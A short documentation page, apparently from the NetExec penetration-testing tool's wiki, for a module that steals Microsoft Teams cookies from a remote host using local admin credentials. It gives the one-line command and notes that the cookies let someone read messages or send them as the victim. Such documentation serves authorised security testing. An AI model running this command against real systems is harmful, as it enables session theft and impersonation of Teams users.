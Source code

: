 # Steal Microsoft Teams Cookies

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

New NetExec module to dump Microsoft Teams cookies thanks to [@KuiilSec](https://twitter.com/KuiilSec)'s contribution.&#x20;

You can use them to retrieve information like users, messages, groups etc or send directly messages in Teams.

```bash
nxc smb <ip> -u user -p pass -M teams_localdb
```
